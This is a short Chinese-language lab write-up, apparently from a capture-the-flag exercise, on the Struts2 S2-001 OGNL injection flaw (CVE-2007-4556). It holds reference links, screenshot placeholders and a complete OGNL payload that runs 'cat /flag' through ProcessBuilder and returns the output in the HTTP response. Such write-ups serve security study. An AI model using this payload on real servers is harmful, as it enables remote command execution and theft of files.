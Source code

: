 > https://yunjing.ichunqiu.com/cve/detail/952
> #Struts2

> WebWork 2.1+ 和 Struts 2 的 “altSyntax” 功能允许将 OGNL 表达式插入到文本字符串中，并以递归方式进行处理。这允许恶意用户提交一个字符串，通常通过 HTML 文本字段，其中包含一个 OGNL 表达式，如果表单验证失败，服务器将执行该表达式。
> Struts2系列漏洞：S2-001
> https://nvd.nist.gov/vuln/detail/CVE-2007-4556
> https://www.rapid7.com/db/vulnerabilities/struts-cve-2007-4556/
> https://si1ent.xyz/2021/02/26/Struts2%E6%BC%8F%E6%B4%9E%E6%B1%87%E6%80%BB/

正常访问：
![[Pasted image 20230117141909.png]]

测试正常登录：
![[Pasted image 20230117142212.png]]

使用网上的payload进行测试：
![[Pasted image 20230117142358.png]]

确定漏洞存在，直接注入：
```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/flag"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
经过url编码后，执行结果：
![[Pasted image 20230117144421.png]]
